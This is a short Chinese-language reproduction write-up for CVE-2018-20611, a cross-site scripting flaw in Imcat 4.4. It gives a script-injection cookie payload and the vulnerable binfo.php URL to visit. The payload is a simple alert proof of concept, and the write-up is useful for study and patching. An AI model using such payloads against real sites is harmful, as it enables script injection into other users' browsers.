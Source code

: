 ```yaml
---
title: （CVE-2018-20611）Imcat 4.4 xss
id: zhfly2976
---
```


# （CVE-2018-20611）Imcat 4.4 xss

## 一、漏洞简介

imcat是一套基于PHP的开源建站系统。 imcat 4.4版本存在跨站脚本漏洞。远程攻击者可通过向root/tools/adbug/binfo.php?cookie URI发送特制的cookie利用该漏洞注入任意的Web脚本或HTML。

## 二、漏洞影响

imcat 4.4

## 三、复现过程

将cookie的值修改成

```
"><script>alert(1)</script> 
```

![](../img/841b6d0af7ed1e66c899bca37d6e664e.png)

然后访问

```
http://www.0-sec.org/root/tools/adbug/binfo.php?cookie` 
```

![](../img/841b6d0af7ed1e66c899bca37d6e664e.png)

## 参考链接

> https://github.com/AvaterXXX/CVEs/blob/master/imcat.md